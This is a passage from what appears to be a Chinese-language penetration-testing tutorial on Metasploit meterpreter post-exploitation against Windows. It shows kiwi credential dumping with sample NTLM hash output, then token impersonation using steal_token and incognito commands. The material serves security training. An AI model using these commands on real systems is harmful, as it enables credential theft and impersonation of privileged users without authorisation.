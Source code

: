 ```
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)
```

kiwi拥有更全面的功能，基本保留了mimikatz的功能

```
meterpreter > creds_msv
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============

Username  Domain           LM                NTLM              SHA1
--------  ------           --                ----              ----
test      WIN-ITNJLFM93P3  aad3b435b51404ee  31d6cfe0d16ae931  da39a3ee5e6b4b0d
                           aad3b435b51404ee  b73c59d7e0c089c0  3255bfef95601890
                                                               afd80709

```



## 假冒令牌

### steal_token

使用假冒令牌可以假冒某个网络中的另一个用户进行操作，如提升用户权限，创建用户和组等，当用户登录Windows时，会给他一个访问令牌作为认证会话的一部分。例如一个入侵用户可能需要以域管理员的身份执行操作，就需要使用假冒令牌的方式

使用ps指令查看当前运行的应用程序以及所对应的用户

```
ps
```

盗取令牌语法如下

```
steal_token PID
```

此时就是以盗取的用户身份执行

### incognito

首先加载此模块

```
load incognito
```

执行命令

```
list_tokens -u
```

可以查看到所有可用令牌
